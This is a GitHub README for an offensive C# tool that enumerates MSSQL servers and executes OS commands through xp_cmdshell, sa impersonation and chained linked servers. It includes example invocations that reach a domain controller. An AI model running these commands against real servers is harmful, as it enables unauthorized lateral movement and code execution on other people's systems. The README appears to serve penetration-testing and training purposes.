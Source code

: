 # SQLinkedCodeExec

![image](https://user-images.githubusercontent.com/57995347/164911965-bc2c290e-f2ad-446b-a030-a3fb2910f52e.png)


This is an Offensive C# Tool that performs the following:
- basic enumeration on MSSQL server(s)
- execute commands on the backend OS hosting the MSSQL server(s)

The tool accepts user supplied credentials or leverages the access token of the logged-on user

```
SQLinkedCodeExec.exe /t <target> /user <username> /pass <password>  <command-to-run>
```

Options:
```
/codexec - executes specified code on MSSQL servers
/impersonate - impersonates sa user on MSSQL server
/imp_db - specifies the database for impersonation e.g. msdb. This must be used with imp_user
/imp_user - impersonates specified login on a MSSQL server e.g. sa
/localexec - enables code execution via xp_cmdshell on local MSSQL server
/link1exec - enables code execution via xp_cmdshell on single hop linked MSSQL - Link 1
/link2exec - enables code execution via xp_cmdshell on double hop linked MSSQL - Link 2
/lnk - determines if the target MSSQL server has any linked servers
/lnkedt - specifies the linked server connected to our target MSSQL - Link 1
/lnkedtt - specifies the double linked server connect to our target MSSQL - Link 2
/lnkedtcheck1 - enumerates linked server  - Link 1
/lnkedtcheck2 - enumerates double linked server  - Link 1
/pass - specifies password to use
/t - specifies the target MSSQL server
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
SQLinkedCodeExec.exe /t <target> /user <username>  /pass <password>  <command-to-run>

Usage: Examples:"
SQLinkedCodeExec.exe /?  - show's this help menu \n"

//Authenticate to target MSSQL with username and password"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password>\n"

//Authenticate to target MSSQL with current system token"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /syscreds true\n"

//Execute Code on target MSSQL server "
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /localexec true /codexec < Whatever - command - goes - here > \n"

//Check if target MSSQL server has any server links"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true /lnk true\n"

//Execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true  /link1exec tTrue /lnkedt appsrv01 /codexec <powershell - enc...>\n"

//Impersonate sa account and execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnk true /impersonate true /imp_user sa /imp_db msdb /codexec <powershell - enc>\n"

//Enumerate linked MSSQL server (appsrv01) for additional links to other instances - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnkedt appsrv01 /lnkedtcheck1 true\n"

//Checked double linked server (dc01) for the user we are operating as - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true  /lnkedt appsrv01 /lnkedtt dc01 /lnkedtcheck2 true\n"

//Execute code on double linked server (dc01)"
SQLinkedCodeExec.exe /t dc01 /user someguy /pass somepass /syscreds true /lnk true  /link2exec true /lnkedt appsrv01 /lnkedtt dc01 /codexec <powershell - enc....>\n"
```


# Credits
- Heavily inspired by "[chvancooten's Code Snippets](https://github.com/chvancooten/OSEP-Code-Snippets)" 
